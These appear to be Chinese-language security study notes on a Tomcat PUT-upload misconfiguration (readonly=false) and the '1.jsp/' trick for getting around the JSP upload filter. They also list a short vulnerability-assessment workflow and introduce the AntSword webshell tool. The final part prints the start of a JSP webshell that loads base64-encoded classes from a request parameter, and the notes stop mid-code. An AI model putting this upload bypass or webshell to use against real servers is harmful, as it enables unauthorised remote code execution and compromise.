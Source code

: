 - 代码执行工具 - Brup suite
  - 工作原理： 客户端向服务端发送请求，服务端收到请求后给出响应，在这个通信过程中，设置一个中间人(程序)，介入双方的通信，这个中间人就是Brup suite
  - 使用方法

- 漏洞原理：
  - 漏洞1：漏洞本质是 Tomcat 的 web.xml 配置了可写（写=上传）（readonly=false），导致我们可以往服务器写（PUT）文件：
  ```xml
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>   #代码出问题的地方readonly=falus
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
  ```
  - 漏洞2：tomcat本身不允许上传 jsp 文件，1.jsp/ 加了 / 就不是 jsp 文件，系统保存文件 1.jsp/ --> 1.jsp
  <br>tomcat对jsp是做了一定处理的。前面的流程中 1.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。
- tip 对站点进行漏洞查找的流程:
  - 梳理互联网暴露面（尽量减少对外入口）
  - 扫描。分别从应用层面和主机层面去扫描站存在的漏洞
  - 手工验证漏洞
  - 检查网站的安全配置（基线配置核查）、代码审计
- webshell利用工具2 —— 蚁剑
  - 蚁剑：webshell图形化利用工具
  ```
    https://github.com/AntSwordProject/antSword
    https://www.yuque.com/antswordproject/antsword/srruro
  ```
    - yijian_shell.jsp
  ```jsp
    <%!
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer",
    String.class).invoke(clazz.newInstance(), str);
            } catch (Exception e) {
                Class clazz = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode",
    String.class).invoke(decoder, str);
            }
        }
    %>
    <%
        String cls = request.getParameter("passwd");
        if (cls != null) {
  ```